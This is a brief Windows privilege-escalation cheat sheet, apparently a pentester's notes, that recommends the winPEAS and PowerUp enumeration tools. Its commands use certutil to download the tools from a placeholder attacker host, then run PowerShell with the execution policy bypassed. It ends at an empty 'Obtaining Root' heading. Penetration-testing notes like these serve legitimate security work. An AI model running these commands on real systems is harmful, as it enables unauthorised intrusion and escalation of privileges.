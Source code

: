 # Most Common PrivEsc Methods

Here are some things I do for windows privesc.

## Identifying Privesc Vector

First I like installing a `PowerUP` *AND* `winPEAS`. Using these tools will help us find the attack vector `80%` of the time.

### winPEAS

winPEAS is great to find some loot and privesc. Make sure to read fine print.

```cmd
certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe winPEAS.exe
```

### PowerUP

PowerUp has some awesome utility. Check their official documentation for more info. To run all checks do the following:

```cmd
$ certutil -urlcache -split -f http://<attacker-ip>/PowerUp.ps1 PowerUp.ps1
$ powershell -ep bypass
$ .\PowerUp.ps1; Invoke-AllChecks
```

## Obtaining Root
